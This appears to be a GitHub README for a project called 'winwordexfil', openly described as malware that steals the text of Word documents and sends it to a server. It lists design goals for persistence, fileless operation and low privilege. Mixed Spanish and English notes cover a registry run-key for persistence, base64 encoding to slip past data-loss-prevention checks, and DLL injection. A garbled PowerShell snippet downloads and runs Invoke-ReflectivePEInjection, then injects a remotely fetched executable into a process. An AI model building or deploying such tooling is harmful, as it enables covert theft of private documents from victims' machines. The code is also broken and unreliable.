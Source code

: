 # winwordexfil
A kind of malware to exfiltrate Word documents text written

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.
    
 


cuando dropeas: haces persistencia, lanzas watcher

haces persistencia (a nivel usuario) que es una entrada en el registro para que se ejecute al inicio de sesión 

pendiente -> watcher para ver cuando se abre el world

exfiltrar el contenido de los documentos abiertos --> basic dlp evasion encoding in base64. more advanced techniques like adding cypher.

https://community.spiceworks.com/how_to/163884-getting-data-from-a-word-document-using-powershell

https://medium.com/@riffsandhacks/data-exfiltration-bypassing-a-misconfigured-dlp-to-exfiltrate-sensitive-data-1236989c76c1

https://stackoverflow.com/questions/52074362/how-to-connect-powershell-script-to-an-already-opened-document




http server
https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7






in order to create a better malware or wanted to use other techniques reflectivePEInjection can be used



IEX((New-Object System).DowloadString powershell infoKe-ReflectivePEInjection.ps1)
$b = downloadstring(executable.bin)
$c system.convert::frombase64string($b)
Invoke-ReflectivePEInjection -PEBytes $c   /indicanto el proceso al que quieres ir



process dll injection to hook windows api call 



Microsoft MSHTML Remote Code Execution Vulnerability